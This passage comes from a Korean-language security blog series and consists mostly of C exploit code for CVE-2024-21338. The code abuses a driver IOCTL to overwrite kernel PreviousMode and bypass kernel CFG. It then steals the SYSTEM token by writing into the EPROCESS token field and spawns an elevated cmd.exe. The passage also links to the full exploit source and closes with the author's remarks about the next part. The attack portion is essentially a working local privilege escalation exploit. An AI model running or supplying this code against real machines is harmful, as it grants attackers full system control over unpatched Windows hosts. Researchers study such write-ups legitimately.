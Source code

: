 ```c

	PVOID FILE_OBJECT = GetFILE_OBJECT_Address();

	INPUT_BUFFER buffer = { 0, };
	HANDLE dHandle;
	dHandle = CreateFileA(DEVICE_NAME, GENERIC_READ | GENERIC_WRITE, FILE_SHARE_READ | FILE_SHARE_WRITE, NULL, CREATE_NEW, 0, NULL);

	buffer.arg1 = (UINT64)PreviousMode + 0x30;		
	buffer.objptr = FILE_OBJECT;					
	buffer.cfgptr = &ExpProfileDelete;				
	buffer.unknown = NULL;							

	IO_STATUS_BLOCK ioStatus;

	if (pNtDeviceIoControlFile(dHandle, NULL, NULL, NULL, &ioStatus, 0x22A018, &buffer, sizeof(buffer), NULL, &dwbytes) != NOERROR) {
		printf("NtDeviceIoControlFile Failed, 0x%x\n", GetLastError());
	}

	pNtWriteVirtualMemory(GetCurrentProcess(), (ULONGLONG)EPROCESS + 0x4b8, (ULONGLONG)SYSTEM_EPROCESS + 0x4b8, sizeof(ULONGLONG), &dwbytes);

	char* restoreBuffer = (char*)malloc(sizeof(CHAR));
	*restoreBuffer = 1;

	pNtWriteVirtualMemory(GetCurrentProcess(), (ULONGLONG)KTHREAD + 0x232, (PVOID)restoreBuffer, sizeof(CHAR), &dwbytes);

	system("cmd.exe");

	return 0;
}
```

> 전체 소스코드: [https://github.com/hackyboiz/kcfg-bypass/blob/main/CVE-2024-21338.c](https://github.com/hackyboiz/kcfg-bypass/blob/main/CVE-2024-21338.c)
> 

![image.png](ko/image%2013.png)

원래 이번 파트에서 세 가지 기법을 모두 소개하려고 했지만.. 생각보다 길어진 관계로 다음 파트에서 남은 두 가지 기법에 대해 정리하겠습니다 ㅎㅎ.. (괜찮아 나한텐 설 연휴가 있어)

그럼 Part 3로 다시 찾아오겠습니다 :) 2025년에도 우리 열심히 공부해요